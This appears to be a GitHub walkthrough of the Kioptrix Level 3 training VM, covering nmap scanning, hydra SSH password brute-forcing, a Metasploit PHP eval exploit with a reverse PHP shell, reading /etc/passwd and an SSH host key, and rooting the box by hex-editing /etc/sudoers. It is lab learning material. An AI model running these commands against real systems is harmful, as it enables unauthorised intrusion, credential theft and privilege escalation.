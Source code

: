 # Kioptrix-level-3-Walk-through

scan the target using nmap
Nmap -sn 192.168.1.*

got the kioptrix vm ip at

Nmap -sC -sV 192.168.1.104

found some open ports ( 22-80)

now lets walkthrough each port and see what we can do (separately and combined):

surfing the web server 
---


![image](https://user-images.githubusercontent.com/52453415/127151497-d00d97cd-4f6e-41ee-92a6-459562ac40fc.png)

i've noticed some things 

1-the login page may have vulnarable to sqli 
 

2- this comment section may be vulnerable to xxs 

3- this name must mean something , so i'll assume that name is associated with username to ssh and i'll attempt password brute-forcing and let it work in background untill i finish surfing 

hydra   -e nsr -l $user -P /home/kali/10-million-password-list-top-100000.txt $host ssh -t 4


# trying basic sqli commands in password filed doesn't work 

but when i put i single quote to the url it reveals an error of eval function 

![image](https://user-images.githubusercontent.com/52453415/127153115-a2df707e-d0f2-42d4-888c-8d9ccbeb2310.png)


search the web for this error I've learned that error associated with php eval() function and this has an exploit 

searching meta sploit for the exploit 

![image](https://user-images.githubusercontent.com/52453415/127154117-182ac9d7-e281-4240-ba22-0a06a83c5a31.png)

same content management as our sever use sounds promising 

set the payload URI and RHOST  then Run 

![image](https://user-images.githubusercontent.com/52453415/127154542-a0f6cab9-9ad3-4f8d-b48d-7e9d38830b29.png)


exploit done but no session was created 

changing the payload to payload payload/php/reverse_php and try again ; it works 

whoami >> www-data

upgrading the shell

python -c 'import pty; pty.spawn("/bin/bash")'

cat /etc/passwd 

![image](https://user-images.githubusercontent.com/52453415/127160383-768e1237-9820-40c7-9621-f3b8395e3a3d.png)

cat /etc/ssh/ssh_host_rsa_key

not permitted 

no file transfer is allowed for this user and no permission  to create any files either , so i couldn't transfer exploits or create them there 

at the mean time i continue surfing the the machine 

i've found Companypolicy.txt inside lonferrete folder 

this file sys that we must use sudo before ht when dealing with software editing 

so what's this ht and i defiantly must be in soduers to use it 

so i couldn't know more with this user so i've to  wait the brute force hoping to reveal loneferrete password 

# now the brute force attack found the password  and it is " starwars " 

ssh lonferret@192.168.1.9

password : starwars 

now sudo ht 

it's ahexa editor with setuid falg and owned by root , perfect tool to edit our privliage 

so we are going to edit sudoers files in /etc/sudoers/

sudo ht /etc/sudoers/ 

Next, change mode to text by pressing F6, you’ll notice the following line:

loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht  

there are no edit in txt mode so i headed back to hex mode and replaced the ! with 0x20 

then try sudo su 


![image](https://user-images.githubusercontent.com/52453415/127290084-6bceaf4c-33b2-4073-8e34-607f3d8f1525.png)

it didn’t work. su is under /bin/su, not /usr/bin/su…

so we have to replace the !/usr/bin/su, with /bin/su 

replaces all hex values for these chars with 0x20 

![image](https://user-images.githubusercontent.com/52453415/127290438-c63ee6de-fa7b-477d-9660-772e2c8a4e64.png)

now f2 to save and f10 to quit 

sudo su 

bingo 

whoami 

root




